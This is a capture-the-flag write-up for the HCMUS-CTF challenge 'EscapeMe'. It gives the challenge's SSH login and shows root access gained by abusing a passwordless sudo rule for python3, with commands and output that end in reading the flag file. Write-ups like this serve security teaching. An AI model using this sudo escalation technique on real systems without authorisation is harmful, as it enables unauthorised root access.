 ## EscapeMe

#### Solved by hieplpvip

```
Can you escape me!

ssh ctf@61.28.237.24 -p30402 password: hcmus-ctf

author: pakkunandy

p/s: the flag.txt is in the /home/ctf. If it is not exist. Please wait and then login again.
```

Let's check what we can run as root:

```
$ sudo -l
Matching Defaults entries for ctf on escapeme-5c599b968f-gwjcv:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ctf may run the following commands on escapeme-5c599b968f-gwjcv:
    (ALL) NOPASSWD: /usr/bin/python3
```

We can run `python3` as root without password. We will use this to get the flag:

```
$ sudo python3
Python 3.6.9 (default, Jan 26 2021, 15:33:00)
[GCC 8.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.system("cat /home/ctf/flag.txt")
HCMUS-CTF{privilege_escalation_is_fun!!!}
```

**Flag:** `HCMUS-CTF{privilege_escalation_is_fun!!!}`
